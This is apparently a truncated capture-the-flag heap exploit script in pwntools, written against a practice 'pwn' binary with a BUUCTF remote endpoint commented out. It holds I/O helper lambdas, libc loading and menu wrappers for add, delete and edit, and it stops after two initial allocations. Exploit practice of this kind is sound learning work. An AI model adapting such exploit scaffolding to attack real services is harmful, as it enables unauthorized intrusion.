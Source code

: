 ## exp（开启ASLR）

```plain
import os
import sys
import time
from pwn import *
from ctypes import *

context.os = 'linux'
context.log_level = "debug"

s       = lambda data               :p.send(str(data))
sa      = lambda delim,data         :p.sendafter(str(delim), str(data))
sl      = lambda data               :p.sendline(str(data))
sla     = lambda delim,data         :p.sendlineafter(str(delim), str(data))
r       = lambda num                :p.recv(num)
ru      = lambda delims, drop=True  :p.recvuntil(delims, drop)
itr     = lambda                    :p.interactive()
uu32    = lambda data               :u32(data.ljust(4,b'\x00'))
uu64    = lambda data               :u64(data.ljust(8,b'\x00'))
leak    = lambda name,addr          :log.success('{} = {:#x}'.format(name, addr))
l64     = lambda      :u64(p.recvuntil("\x7f")[-6:].ljust(8,b"\x00"))
l32     = lambda      :u32(p.recvuntil("\xf7")[-4:].ljust(4,b"\x00"))
context.terminal = ['gnome-terminal','-x','sh','-c']

x64_32 = 1

if x64_32:
    context.arch = 'amd64'
else:
    context.arch = 'i386'



#p=process('./pwn')
#p=remote('node4.buuoj.cn',29025)
elf = ELF('./pwn')
#libc=ELF('./libc-2.23.so')
libc=ELF('/lib/x86_64-linux-gnu/libc-2.23.so')

def duan():
    gdb.attach(p)
    pause()

def add(size,idx,content):
    sla('choice >> \n',str(1))
    sla('wlecome input your size of weapon: ',str(size))
    sla('input index: ',str(idx))
    sa('input your name:\n',content)

def delete(idx):
    sla('choice >> \n',str(2))
    sla('input idx :',str(idx))

def edit(idx,content):
    sla('choice >> \n',str(3))
    sla('input idx: ',str(idx))
    sa('new content:\n',content)

def pwn():
    add(0x60,0,'a')
    add(0x60,1,'b')
```